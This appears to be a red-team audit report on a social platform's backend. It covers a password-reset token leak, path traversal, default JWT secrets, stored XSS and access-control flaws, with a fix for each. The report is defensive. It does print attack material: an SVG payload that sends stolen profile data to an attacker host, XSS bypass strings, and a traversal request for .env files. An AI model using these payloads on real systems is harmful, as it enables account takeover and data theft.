

# Red Team Security Audit Report
**Target**: UdtaBirdie Social Platform (`miss` repository)  
**Date**: September 5, 2026  
**Auditor**: Red Team Security Assessment  
**Assessment Scope**: Full-stack codebase (`backend/`, `frontend/`, database configurations, and authentication architecture)

---

## Executive Summary

A comprehensive source-code and architectural vulnerability assessment of the UdtaBirdie social platform was conducted. The assessment identified **10 significant security vulnerabilities** spanning broken authentication, arbitrary file reads, sensitive information disclosure, insecure file uploads, broken access control (BOLA), and denial-of-service risks.

### Vulnerability Severity Distribution

| Severity | Count | Primary Impact |
| :--- | :---: | :--- |
| 🔴 **Critical** | 3 | Complete Account Takeover, Arbitrary File Read, Token Forgery |
| 🟠 **High** | 2 | Stored XSS via File Upload, BOLA State Mutation |
| 🟡 **Medium** | 3 | PII Email Harvesting, Regex XSS Bypass, Memory Exhaustion DoS |
| 🔵 **Low / Info** | 2 | Session Invalidation Bypass, Diagnostic Information Disclosure |

---

## Detailed Vulnerability Findings

```
[VULN-01] Critical  — Unauthenticated Full Account Takeover via Password Reset Token Leak
[VULN-02] Critical  — Arbitrary File Read / Path Traversal in /uploads Static Handler
[VULN-03] Critical  — Hardcoded Fallback JWT Secrets Leading to Token Forgery
[VULN-04] High      — Insecure File Upload Validation & Stored XSS via Active Content
[VULN-05] High      — Race Condition / State Mutation Before Ownership Check in Follow Requests
[VULN-06] Medium    — Personally Identifiable Information (PII) Leak via User Search
[VULN-07] Medium    — Ineffective Regex-Based Input Sanitization (XSS Bypass)
[VULN-08] Medium    — Denial of Service (DoS) via Oversized JSON Body Parser
[VULN-09] Low/Med   — Missing Account Restriction Enforcement in JWT Verification
[VULN-10] Low       — Internal System Information Disclosure via /health and /metrics
```

---

### [VULN-01] Unauthenticated Full Account Takeover via Password Reset Token Leak

- **Severity**: 🔴 **CRITICAL** (CVSS v3.1: **10.0** — `AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`)
- **Vulnerability Type**: Broken Authentication / Sensitive Data Exposure ([CWE-640](https://cwe.mitre.org/data/definitions/640.html), OWASP A07:2021)
- **File Location**: [`backend/src/services/auth/routes.ts`](file:///d:/project2.0/miss/backend/src/services/auth/routes.ts#L575-L604)

#### Mechanism
In `POST /api/v1/auth/forgot-password`, when a valid user email is supplied, the server generates a cryptographically secure token and commits it to the database. However, the server then **returns the raw token directly inside the JSON HTTP response**:

```typescript
// backend/src/services/auth/routes.ts:598
res.json({
  success: true,
  message: 'Password reset token generated.',
  resetToken: token, // <--- CRITICAL LEAK TO CALLER
});
```

#### Exploit Scenario
1. An unauthenticated attacker calls `POST /api/v1/auth/forgot-password` with `{"email": "admin@udtabirdie.com"}`.
2. The response returns `{ "success": true, "resetToken": "08f3a..." }`.
3. The attacker immediately calls `POST /api/v1/auth/reset-password` with `{ "token": "08f3a...", "newPassword": "AttackerControlled123!" }`.
4. **Impact**: The attacker achieves instantaneous account takeover of any user or administrator on the platform without requiring access to their email or device.

#### Defensive Remediation
1. Never return the token in the response body.
2. In production, transmit password reset links exclusively via authenticated SMTP or secure messaging out-of-band.
3. Store only cryptographic hashes (e.g. `SHA-256(token)`) in the database so that a database breach does not allow token reuse.

---

### [VULN-02] Arbitrary File Read / Path Traversal in `/uploads` Static Handler

- **Severity**: 🔴 **CRITICAL** (CVSS v3.1: **9.8** — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:H`)
- **Vulnerability Type**: Path Traversal ([CWE-22](https://cwe.mitre.org/data/definitions/22.html), OWASP A01:2021)
- **File Location**: [`backend/src/index.ts`](file:///d:/project2.0/miss/backend/src/index.ts#L65-L104)

#### Mechanism
The custom handler serving `/uploads` constructs the absolute file path by directly joining the upload directory with `req.path`:

```typescript
// backend/src/index.ts:90
const filePath = path.join(path.resolve(uploadsPath), req.path);

if (!fs.existsSync(filePath)) {
  res.status(404).json({ error: 'File not found' });
  return;
}
const stream = fs.createReadStream(filePath);
stream.pipe(res);
```

Because `filePath` is never validated to ensure it remains inside `uploadsPath`, directory traversal sequences (`..`) allow breaking out of the designated directory.

#### Exploit Scenario
An attacker submits a GET request to `/uploads/../../backend/.env` or `/uploads/../../backend/src/config/production.ts`. The server opens a read stream to the target file and pipes confidential environment secrets, database credentials, and backend source code back to the client.

#### Defensive Remediation
Enforce path boundaries before accessing the filesystem:
```typescript
const resolvedBase = path.resolve(uploadsPath);
const resolvedTarget = path.resolve(resolvedBase, '.' + req.path);

if (!resolvedTarget.startsWith(resolvedBase + path.sep)) {
  return res.status(403).json({ error: 'Access denied' });
}
```
Alternatively, replace the custom stream handler with `express.static` configured with `dotfiles: 'ignore'`.

---

### [VULN-03] Hardcoded Fallback JWT Secrets Leading to Token Forgery

- **Severity**: 🔴 **CRITICAL** (CVSS v3.1: **9.1** — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N`)
- **Vulnerability Type**: Hardcoded Cryptographic Secrets ([CWE-798](https://cwe.mitre.org/data/definitions/798.html), OWASP A02:2021)
- **File Location**: 
  - [`backend/src/services/auth/models.ts`](file:///d:/project2.0/miss/backend/src/services/auth/models.ts#L15-L16)
  - [`backend/src/services/notification/websocket.ts`](file:///d:/project2.0/miss/backend/src/services/notification/websocket.ts#L75)

#### Mechanism
Default fallbacks are defined in multiple modules:
```typescript
private static readonly JWT_SECRET = process.env.JWT_SECRET || 'your-secret-key';
private static readonly JWT_REFRESH_SECRET = process.env.JWT_REFRESH_SECRET || 'your-refresh-secret-key';
```
And in WebSocket:
```typescript
const JWT_SECRET = process.env.JWT_SECRET || 'your-secret-key';
```

#### Exploit Scenario
If `JWT_SECRET` is missing in an environment or falls back during a configuration glitch, an attacker can craft a JWT payload (`{"userId": "...", "role": "admin"}`) signed with the known secret `'your-secret-key'`. Both the API Gateway and WebSocket server accept the forged token as an authentic administrator session.

#### Defensive Remediation
Throw an explicit startup exception if `JWT_SECRET` is missing or below 32 characters:
```typescript
if (!process.env.JWT_SECRET || process.env.JWT_SECRET.length < 32) {
  throw new Error('FATAL: JWT_SECRET environment variable must be at least 32 characters.');
}
```

---

### [VULN-04] Insecure File Upload Validation & Stored XSS via Active Content

- **Severity**: 🟠 **HIGH** (CVSS v3.1: **8.2** — `AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:N`)
- **Vulnerability Type**: Unrestricted File Upload / Stored XSS ([CWE-434](https://cwe.mitre.org/data/definitions/434.html), [CWE-79](https://cwe.mitre.org/data/definitions/79.html))
- **File Location**: 
  - [`backend/src/services/content/routes.ts`](file:///d:/project2.0/miss/backend/src/services/content/routes.ts#L63-L71)
  - [`backend/src/services/content/storage.ts`](file:///d:/project2.0/miss/backend/src/services/content/storage.ts#L43-L45)
  - [`backend/src/index.ts`](file:///d:/project2.0/miss/backend/src/index.ts#L113-L177)

#### Mechanism
1. Multer checks only `file.mimetype`, which is an untrusted client header that can be spoofed.
2. The file extension is extracted directly from the user-provided filename (`path.extname(originalName)`).
3. In `backend/src/index.ts` line 173, Helmet security headers are **explicitly bypassed** for `/uploads`.
4. In `backend/src/index.ts` line 113, `.svg` files are served as `image/svg+xml`.

#### Exploit Scenario
1. An attacker uploads an SVG file named `avatar.svg` containing `<svg xmlns="http://www.w3.org/2000/svg"><script>fetch('/api/v1/profile/me').then(r=>r.json()).then(d=>fetch('//attacker.com/steal?data='+JSON.stringify(d)))</script></svg>`.
2. When any user opens the image or clicks "Open original file" in the browser, the script executes in the context of the user's origin, extracting `localStorage` tokens and user data.

#### Defensive Remediation
1. Inspect file signatures (magic bytes) using a library such as `file-type` rather than trusting the `Content-Type` header.
2. Sanitize SVGs using a parser to strip `<script>`, `onload`, and foreign elements, or serve user media strictly with `Content-Disposition: attachment; filename="..."`.
3. Add `X-Content-Type-Options: nosniff` and a restrictive `Content-Security-Policy: default-src 'none'` header on all static asset endpoints.

---

### [VULN-05] Race Condition / State Mutation Before Ownership Verification in Follow Requests

- **Severity**: 🟠 **HIGH** (CVSS v3.1: **7.5** — `AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:N`)
- **Vulnerability Type**: Broken Object Level Authorization ([CWE-639](https://cwe.mitre.org/data/definitions/639.html), OWASP A01:2021)
- **File Location**: [`backend/src/services/social/models.ts`](file:///d:/project2.0/miss/backend/src/services/social/models.ts#L242-L273)

#### Mechanism
In both `acceptFollowRequest` and `declineFollowRequest`, the database `UPDATE` query executes *before* verifying if the requester owns the target follow request:

```typescript
// backend/src/services/social/models.ts:244
const updatedRequest = await SocialDatabase.updateFollowRequestStatus(requestId, 'accepted');

// Ownership check is performed AFTER the record has already been modified in the database:
if (updatedRequest.targetId !== targetId) {
  return { success: false, message: 'Unauthorized to accept this request' };
}
```

#### Exploit Scenario
Any authenticated user can submit a POST request to `/api/v1/social/follow-requests/<victim_request_id>/decline` or `/accept`. Even though the response says "Unauthorized", the record in the database was already altered to `declined` or `accepted`, enabling cross-account state tampering.

#### Defensive Remediation
Scope the database query to include `target_id`:
```sql
UPDATE follow_requests SET status = $1 WHERE id = $2 AND target_id = $3 RETURNING *
```
If 0 rows are affected, immediately return a 404 or 403 without side effects.

---

### [VULN-06] PII Email Leakage via Public User Search Endpoint

- **Severity**: 🟡 **MEDIUM** (CVSS v3.1: **6.5** — `AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N`)
- **Vulnerability Type**: Sensitive Data Exposure ([CWE-200](https://cwe.mitre.org/data/definitions/200.html))
- **File Location**: [`backend/src/services/search/database.ts`](file:///d:/project2.0/miss/backend/src/services/search/database.ts#L58-L105)

#### Mechanism
The `searchUsers` query selects the user's `email` column and returns it in the public API response:
```sql
SELECT u.id, u.username, u.email, u.bio, u.profile_picture ...
```

#### Exploit Scenario
An attacker can iterate through single characters (`a`, `b`, `c`...) on `/api/v1/search/users?q=...` to harvest a complete directory of all users' registered email addresses for targeted phishing or credential stuffing.

#### Defensive Remediation
Remove `email` from public user search projections:
```typescript
const results = searchResult.rows.map((row: any) => ({
  id: row.id,
  username: row.username,
  bio: row.bio,
  profilePicture: row.profile_picture,
  isPrivate: row.is_private,
  // DO NOT project email
}));
```

---

### [VULN-07] Ineffective Regex-Based Input Sanitization (XSS Bypass)

- **Severity**: 🟡 **MEDIUM** (CVSS v3.1: **6.3** — `AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N`)
- **Vulnerability Type**: Improper Input Neutralization ([CWE-116](https://cwe.mitre.org/data/definitions/116.html), [CWE-79](https://cwe.mitre.org/data/definitions/79.html))
- **File Location**: 
  - [`backend/src/middleware/security.ts`](file:///d:/project2.0/miss/backend/src/middleware/security.ts#L96-L102)
  - [`backend/src/services/auth/routes.ts`](file:///d:/project2.0/miss/backend/src/services/auth/routes.ts#L66-L68)

#### Mechanism
The application attempts to clean inputs using string replacement:
```typescript
const sanitizeString = (str: string): string => {
  return str
    .replace(/<script\b[^<]*(?:(?!<\/script>)<[^<]*)*<\/script>/gi, '')
    .replace(/javascript:/gi, '')
    .replace(/on\w+\s*=/gi, '')
    .trim();
};
```
And in `auth/routes.ts`: `input.trim().replace(/[<>]/g, '')`.

#### Bypass Vectors
Regex blacklists are easily bypassed:
1. **Nested tag evasion**: `<scr<script>ipt>alert(1)</script>` leaves `<script>alert(1)</script>`.
2. **Event handler variations**: `` or `<svg onload\t=alert(1)>` bypass `/on\w+\s*=/`.
3. **Data/VBScript URIs**: `<iframe src="data:text/html;base64,...">`.

#### Defensive Remediation
Do not use regular expressions to sanitize markup. Use standard HTML entity encoding for textual display, and an industry-standard parser-based HTML sanitizer like `DOMPurify` or `sanitize-html` when rich markup is required.

---

### [VULN-08] Denial of Service (DoS) via Oversized JSON Body Parser Limit

- **Severity**: 🟡 **MEDIUM** (CVSS v3.1: **5.8** — `AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H`)
- **Vulnerability Type**: Uncontrolled Resource Consumption ([CWE-400](https://cwe.mitre.org/data/definitions/400.html))
- **File Location**: [`backend/src/index.ts`](file:///d:/project2.0/miss/backend/src/index.ts#L197-L207)

#### Mechanism
```typescript
app.use(express.json({ limit: config.get('storage.maxFileSize') }));
app.use(express.urlencoded({ extended: true, limit: config.get('storage.maxFileSize') }));
```
`storage.maxFileSize` is configured for media uploads (up to 50MB). This instructs the body-parser to buffer and parse JSON payloads up to 50MB in RAM per request.

#### Exploit Scenario
An attacker sends concurrent requests with deeply nested 50MB JSON documents. The V8 parser blocks the event loop parsing huge strings into memory, exhausting heap allocation and causing out-of-memory process crashes.

#### Defensive Remediation
Set `express.json` and `express.urlencoded` to standard limits (e.g. `500kb` or `1mb`). Large files must be uploaded via streaming `multipart/form-data` handled by Multer.

---

### [VULN-09] Missing Account Restriction Enforcement in JWT Verification

- **Severity**: 🔵 **LOW / MEDIUM** (CVSS v3.1: **5.3** — `AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:N`)
- **Vulnerability Type**: Inactive Account Authorization Bypass ([CWE-613](https://cwe.mitre.org/data/definitions/613.html))
- **File Location**: [`backend/src/services/auth/middleware.ts`](file:///d:/project2.0/miss/backend/src/services/auth/middleware.ts#L18-L40)

#### Mechanism
`authenticateToken` checks only the signature and expiry of the JWT token:
```typescript
const decoded = UserModel.verifyAccessToken(token);
req.user = decoded;
next();
```
It does not verify whether the user's account has been restricted (`is_restricted = true`), suspended, or deleted.

#### Exploit Scenario
An administrator restricts or bans a malicious actor via the Admin Panel. However, the user's existing JWT token remains completely valid for its remaining lifetime (15 minutes), allowing continued actions.

#### Defensive Remediation
Cache user restriction status or a `tokenVersion` in Redis during authentication checks, or verify the flag in the database during state-changing operations.

---

### [VULN-10] Internal System Diagnostics Disclosed via Public Endpoints

- **Severity**: 🔵 **LOW** (CVSS v3.1: **4.3** — `AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N`)
- **Vulnerability Type**: Information Exposure ([CWE-200](https://cwe.mitre.org/data/definitions/200.html))
- **File Location**: [`backend/src/index.ts`](file:///d:/project2.0/miss/backend/src/index.ts#L218-L268)

#### Mechanism
The `/health` endpoint exposes internal database query statistics, pool metrics, process uptime, memory allocations, and application version publicly to unauthenticated users.

#### Defensive Remediation
Separate lightweight health checks (`{"status": "ok"}`) for load balancers from detailed system metrics, placing diagnostic telemetry behind administrative authentication.

---

## Remediation Action Plan (Prioritized Matrix)


